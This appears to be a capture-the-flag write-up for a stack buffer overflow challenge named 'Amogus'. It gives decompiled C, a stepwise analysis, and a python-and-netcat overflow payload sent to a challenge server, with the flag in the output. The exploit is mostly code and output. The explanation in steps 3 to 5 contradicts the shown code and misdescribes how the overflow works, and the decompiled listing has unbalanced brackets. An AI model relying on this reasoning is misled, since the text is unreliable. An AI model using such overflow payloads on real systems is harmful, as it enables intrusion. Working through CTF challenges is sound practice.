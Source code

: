 1. Analyse the file with Ghidra. main() shows this:
```
        int main(void) {
        long in_FS_OFFSET;
        char local_28[24];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        puts("Welcome to Amogus.\n");
        display();
        puts("Enter your name:\n");

        __isoc99_scanf("%s", local_28);
        gameplay(local_28);

        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                __stack_chk_fail();  // Stack canary check
        }

        return 0;
        }
```

gameplay() shows this:
```
        void gameplay(char *param_1) {
        int iVar1;
        FILE *_stream;
        long in_FS_OFFSET;
        char local_68[16];
        char local_58[16];
        char local_48[64];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        __builtin_strncpy(local_68, "DEAD", 5);
        strcpy(local_58, param_1);
        iVar1 = strcmp(local_58, "ALIVE");

        if (iVar1 == 0) {
                _stream = fopen("flag.txt", "r");

                if (_stream == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n"));
                } else {
                fgets(local_48, 0x2d, _stream);
                puts("How are you still alive?!\n");
                puts(local_48);
                }
        } else {
                iVar1 = strcmp(local_58, "DEAD");

                if (iVar1 != 0) {
                puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
                exit(0);
        }

        puts("You are a crewmate. \n");
        FUN_00401160(1);
        puts("You go to Medbay to finish your tasks.\n");
        FUN_00401160(1);
        puts("Suddenly, you hear a gunshot... The world goes dark. \n");
        FUN_00401160(1);
        puts("GAME OVER. YOU LOST :("));
    }

    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }

    return;
        }
```

2. First, we need to look at what checks (conditions) we need to fulfill to get the flag. 

`param_1` is where our input payload goes.

First check: `iVar1 = strcmp(local_58, "ALIVE")` 

If `iVar1 = 0`, then I can go on to the next step. This means that my payload must be "ALIVE".

Second check: 
```
iVar1 = strcmp(local_58, "DEAD");
if (iVar1 != 0) {
        puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
        exit(0);
}
```
This line means that if my payload is not "DEAD", the program will print the "Game Over" set of messages. Otherwise, it will exit the program. 

3. It is impossible to fulfill both checks as if my payload is "ALIVE", the program will print the flag *and* exit at the same time. If my payload is "DEAD" or anything else, I will get the "Game Over" set of messages. However, I re-read the decompiled code and noticed that we have this other line that uses `strcmp()`: `__builtin_strncpy(local_68, "DEAD", 5)`. Also, both checks use `strcmp()` which relies on null bytes to identify the end of a string, meaning that it is possible to read into adjacent buffers.

4. This means that we need a payload such that local_58 contains "ALIVE" and local_68 is corrupted such that local_68 does not contain "DEAD" to avoid triggering the `exit(0)`. 

5. Use 16 bytes of "A" to fill up local_58, and include "ALIVE". This causes the first check's `strcmp()` to read past local_58 into local_68 where "ALIVE" has overflowed, and local_68 is corrupted, so it will not trigger `exit(0)`:

```
└─$ python -c 'print("A"*16 + "ALIVE\x00")' | nc 43.205.113.100 8292
    Welcome to Amogus.

    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⢀⣀⣤⣤⣤⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⠟⠉⠉⠉⠉⠉⠉⠉⠙⠻⢶⣄⠀⠀⠀⠀   
            ⣾⡏⠀⠀⠀⠀⠀⠀     ⠙⣷⡀⠀    
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣸⡟⠀⣠⣶⠛⠛⠛⠛⠛⠛⠳⣦⡀⠀⠘⣿⡄    
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⢠⣿⠁⠀⢹⣿⣦⣀⣀⣀⣀⣀⣠⣼⡇⠀⠀⠸⣷⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⡏⠀⠀⠀⠉⠛⠿⠿⠿⠿⠛⠋⠁⠀⠀⠀⠀⣿    
            ⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⠀  ⢻⡇⠀  
            ⣸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀   ⢸⡇   
    ⠀⠀⠀⠀⠀⠀⠀ ⣿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀  
    ⠀⠀⠀⠀⠀⠀⠀ ⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀  ⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⣠⡶⠶⠿⠿⠿⠿⢷⣦⠀⠀⠀⠀⠀  ⣿⠀  
    ⠀⠀⣀⣀⣀⠀⣸⡇⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀ ⣿⠀ 
    ⣠⡿⠛⠛⠛⠛⠻⠀⠀⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⣿⠇⠀⠀⠀⠀⠀ ⠀⣿⠀ 
    ⢻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀⢀⣤⣤⣴⣿⠀⠀⠀⠀⠀⠀  ⣿⠀ 
    ⠈⠙⢷⣶⣦⣤⣤⣤⣴⣶⣾⠿⠛⠁⢀⣶⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡟⠀  
                ⣿⣆⡀⠀⠀⠀⠀⠀⢀⣠⣴⡾⠃    
                ⠀⠀⠈⠛⠻⢿⣿⣾⣿⡿⠿⠟⠋⠁⠀⠀   
    Enter your name:

    How are you still alive?!

    shaktictf{ch@ng3d_fat3_wh3n_I_s@w_r3dv3nt}
```
